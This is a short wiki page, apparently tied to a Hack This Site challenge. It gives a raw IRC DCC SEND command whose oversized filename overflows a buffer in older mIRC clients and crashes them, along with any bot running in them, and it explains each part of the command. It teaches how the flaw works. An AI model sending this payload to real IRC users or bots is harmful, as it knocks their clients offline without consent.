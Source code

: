 ```yaml
---
categories:

---
```

This may or may not work, depending on your operating system, browser,
and IRC client.

    /raw PRIVMSG moo :�DCC SEND "a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a" 1370673706 3500 4

This exploits a flaw in older versions of mIRC where a buffer overflow
in a DCC SEND command will cause the client (and therefore the bot
script) to crash. "/raw" tells your client to send this raw string
instead of formatting it as you saying something, etc. "PRIVMSG moo"
tells the server that you are private messaging moo " :�" The space,
colon, and 0001 unicode character are required by the IRC protocol "DCC
SEND "..."" tells the remote client that you are trying to direct
connect to send file "..." "1370673706 3500 4" related to the IRC
protocol

[Category:Hack This Site](Category:Hack This Site "wikilink")
